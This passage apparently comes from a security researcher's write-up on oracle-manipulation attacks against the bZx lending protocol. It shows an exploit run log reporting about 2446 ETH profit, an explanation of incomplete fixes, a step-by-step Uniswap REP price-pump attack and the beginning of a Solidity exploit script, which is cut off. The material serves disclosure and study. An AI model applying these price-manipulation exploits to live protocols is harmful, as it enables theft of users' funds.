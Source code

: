 ```text
borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
##### calling: cleanup()
##### calling: checkProfits()
profits=2446.376892708285686012
#### finished executing step: exploit
*/
```

### **Solution**

The bZx team blocked this attack by modifying the oracle logic such that if the collateral and loan token were both either DAI or WETH, then the exchange rate would be loaded directly from Maker's oracles.

However, this solution was incomplete because of the way Kyber resolves the best rate. If you'll recall, Kyber determines the best rate for A/B by determining the best rate for A/ETH and ETH/B, then calculating the amount of B that could be bought with the ETH received by trading A.

This meant that if we were to attempt to borrow a non-ETH token such as USDC using DAI as collateral, Kyber would first determine the best exchange rate for DAI/ETH, then the best rate for ETH/USDC, and finally the best rate for DAI/USDC. Because we can artificially increase the exchange rate for DAI/ETH, we can still manipulate the exchange rate for DAI/USDC even though we don't control a permissioned USDC reserve.

The bZx team blocked this attack in two ways:

1. If either the loan token or collateral token wasn't ETH, then bZx would manually determine the exchange rate between the token and ETH, unless
2. The loan token or collateral token was a USD-based stablecoin, in which case bZx would use the rate from Maker's oracle

## Uniswap

An astute reader may notice at this point that bZx's solution still does not handle incorrect FMVs for arbitrary tokens. This means that if we can find another permissioned reserve which can be manipulated, we can take out yet another undercollateralized loan.

After sifting through all the registered permissioned reserves for the whitelisted tokens, we notice that the REP token has a reserve which integrates with Uniswap. We already know from our attacks on DDEX that Uniswap's prices can be manipulated, so we can re-purpose our previous attack and substitute Eth2Dai and DAI for Uniswap and REP.

### **Demo**

The following script will turn a profit of approximately 2500ETH by:

1. Performing a large order buy on Uniswap's REP exchange, increasing the price from 0.05ETH/REP to 6.05ETH/REP
2. Borrowing ETH from bZx using REP as collateral
3. Cancelling all orders and convert all assets to ETH

```text
contract BZxUniswapExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV3Like private constant BZX_ETH = BZxLoanTokenV3Like(0x77f973FCaF871459aa58cd81881Ce453759281bC);
    
    uint constant private INITIAL_BALANCE = 5000 ether;
    
    function setup() public {
        name("bzx-uniswap-exploit");
        blockNumber(8547500);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
```